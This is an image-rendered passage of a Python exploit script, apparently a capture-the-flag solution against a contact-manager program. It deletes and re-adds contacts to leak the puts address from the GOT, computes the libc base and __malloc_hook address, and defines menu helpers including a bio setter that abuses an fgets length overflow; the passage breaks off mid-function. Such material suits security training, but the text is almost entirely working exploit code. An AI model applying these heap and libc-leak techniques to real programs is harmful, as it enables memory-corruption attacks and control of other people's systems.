 ```python
    del_contact(first_leak_name)
    add_contact('B'*15)
    add_contact('C'*15)
    
    """ Print the details of our contacts. The last contact we added will have its bio point to put_got_entry - libc address leak."""
    output = display().split('\n')[contacts_count - 1]
    leaked_puts_address = (output[output.find('- ') + len('- '):].rstrip('\n')).encode('hex')
    print leaked_puts_address
    leaked_puts_address = int(''.join([leaked_puts_address[x: x + 2] for x in range(0, len(leaked_puts_address), 2)][::-1][:6]), 16)
    
    """ Calculate the addresses in libc that are relevant for us."""
    libc_base = leaked_puts_address - libc.symbols['puts']
    __malloc_hook_address = libc_base + libc.symbols['__malloc_hook']
    print '-'*75
    print 'Leaked puts address:', hex(leaked_puts_address)
    print 'Libc base:', hex(libc_base)
    print '__malloc_hook:', hex(__malloc_hook_address)
    print '-'*75

    
    
def menu():
    global r
    
    r.recvuntil('> ')
    
    
def add_contact(name):
    global r, contacts_count
    
    menu()
    print 'Adding', name
    r.sendline('create ' + name)
    r.recvuntil('Created')
    r.recvuntil('\n')
    contacts_count += 1

    
def del_contact(name):
    global r, contacts_count
    
    menu()
    print 'Removing', name
    r.sendline('delete ' + name)
    r.recvuntil('Deleted')
    r.recvuntil('\n')
    contacts_count -= 1

    
def set_bio(name, bio, length=0):
    global r
    
    menu()
    print 'Seting {}`s bio to {}'.format(name, bio)
    r.sendline('bio ' + name)
    """ The length send to the program is the len of the bio provided as argument unless stated otherwise."""
    bio_length = str(length if length != 0 else len(bio))
    """ fgets is called with the size 4. If we send a 3-digits number and a '\n' we will overflow the '\n' into the next input."""
    if len(bio_length) == 3:
```